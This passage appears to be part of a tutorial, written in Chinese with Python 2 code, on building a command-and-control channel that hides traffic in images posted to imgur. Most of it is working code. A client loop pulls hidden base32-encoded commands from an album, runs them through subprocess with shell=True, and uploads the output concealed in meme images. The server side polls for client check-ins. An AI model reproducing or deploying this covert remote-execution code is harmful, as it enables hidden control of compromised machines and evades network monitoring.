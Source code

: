 ```
loop = True
while loop:
    time.sleep(5)
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict = ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['status'] == "ready":
            print "Client connected:\n"
            print "Client UUID:" + client_dict['uuid']
            print "Client OS:" + client_dict['os']
```

用户输入命令后，使用 base32 对其进行编码，以避免破坏我们的消息字符串。然后将其隐藏在随机图像中，并上传到 imgur。客户端处于等待此消息的 while 循环中。这个循环的开始检查日期时间的方式与我们的服务器相同；如果它看到一个新的图像，它会检查是否使用`uuid`将其发送到此机器，如果是，它会提取消息，将其转换为友好的格式，`Popen`将使用`shlex,`接受该格式，然后使用`Popen`运行该命令。然后，它等待命令的输出，然后将其隐藏在随机图像中并上载到 imgur：

```
loop = True
while loop:

    time.sleep(5) 
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['uuid'] == client_uuid:
            command = base64.b32decode(client_dict['command'])

            if command == "quit":
                sys.exit(0)

            args = shlex.split(command)
            p = subprocess.Popen(args, stdout=subprocess.PIPE, shell=True)
            (output, err) = p.communicate()
            p_status = p.wait()

            steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'response', 'response':'" + str(base64.b32encode(output)) + "'}",  "Imgur1.png", True)
            uploaded = client.upload_from_path(steg_path)
            client.album_add_images(a[0].id, uploaded['id'])
            last_message_datetime = uploaded['datetime']
```

服务器只需获取新图像，提取隐藏输出，并将其显示给用户即可。然后它给出一个新的提示并等待下一个命令。就这样,；这是一种通过隐写术传递命令和控制数据的非常简单的方法。
